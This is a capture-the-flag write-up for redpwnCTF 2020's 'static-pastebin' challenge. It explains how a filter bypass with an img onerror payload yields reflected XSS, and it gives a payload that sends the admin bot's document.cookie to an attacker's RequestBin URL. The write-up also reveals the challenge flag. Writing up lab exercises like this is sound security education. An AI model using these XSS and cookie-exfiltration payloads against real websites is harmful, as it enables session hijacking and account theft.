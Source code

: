 ```yaml
---
layout: post
title: "static-pastebin"
author: "shreyas-sriram"
---
```


I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here. 

`https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin` (admin-bot)

Site: `static-pastebin.2020.redpwnc.tf`

Note: The site is entirely static. Dirbuster will not be useful in solving it.

# Solution

* The input is getting reflected in the next page, this could be a case of **XSS**
* But trying `<script>alert('1')</script>` as payload doesn't execute **XSS**
* Looking through the source code, it is clear that there is some kind of filtering for `<` and `>`
* This is one of the payloads that works<br/>
`><img src='x' onerror='alert(1)'>`
* There is an admit-bot in the question which will visit the URL provided, this can be exploited to steal the admin's cookie
* Setup a [RequestBinURL](https://requestbin.com)
* Use the following payload in the static-pastebin<br/>
`><img src=x onerror=this.src='//<RequestBinURL>/?c='+document.cookie>`
* Copy the URL and submit to the admin-bot<br/>
URL  :  `https://static-pastebin.2020.redpwnc.tf/paste/#<Base64-payload>`
* View the logs on the **RequestBinURL** to obtain the flag<br/>
`flag{54n1t1z4t10n_k1nd4_h4rd}`